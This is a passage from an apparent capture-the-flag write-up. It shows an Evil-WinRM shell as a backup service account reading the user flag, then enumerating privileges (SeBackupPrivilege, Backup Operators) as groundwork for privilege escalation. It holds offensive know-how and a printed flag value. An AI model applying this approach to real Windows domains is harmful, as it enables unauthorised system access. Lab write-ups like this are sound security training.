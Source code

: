 ```
    Directory: C:\Users\svc_backup\Desktop


Mode                LastWriteTime         Length Name
----                -------------         ------ ----
-a----        2/28/2020   2:26 PM             32 user.txt


*Evil-WinRM* PS C:\Users\svc_backup\Desktop> more user.txt
3920bb317a0bef51027e2852be64b543
```

## Privilege Escalation
### Enumeration
#### Checking current permissions
I had a quick look over what this account can actually do, and to keep it easy for us `SeBackUpPrivilege` which according to Microsoft will allow full system read access
[4672(S) Special privileges assigned to new logon. - Windows 10 | Microsoft Learn](https://learn.microsoft.com/en-us/previous-versions/windows/it-pro/windows-10/security/threat-protection/auditing/event-4672)

```
Evil-WinRM* PS C:\Users\svc_backup\Desktop> whoami /priv

PRIVILEGES INFORMATION
----------------------

Privilege Name                Description                    State
============================= ============================== =======
SeMachineAccountPrivilege     Add workstations to domain     Enabled
SeBackupPrivilege             Back up files and directories  Enabled
SeRestorePrivilege            Restore files and directories  Enabled
SeShutdownPrivilege           Shut down the system           Enabled
SeChangeNotifyPrivilege       Bypass traverse checking       Enabled
SeIncreaseWorkingSetPrivilege Increase a process working set Enabled
*Evil-WinRM* PS C:\Users\svc_backup\Desktop> net user svc_backup
User name                    svc_backup
Full Name
Comment
User's comment
Country/region code          000 (System Default)
Account active               Yes
Account expires              Never

Password last set            2/23/2020 10:54:48 AM
Password expires             Never
Password changeable          2/24/2020 10:54:48 AM
Password required            Yes
User may change password     Yes

Workstations allowed         All
Logon script
User profile
Home directory
Last logon                   2/23/2020 11:03:50 AM

Logon hours allowed          All

Local Group Memberships      *Backup Operators     *Remote Management Use
Global Group memberships     *Domain Users
The command completed successfully.

```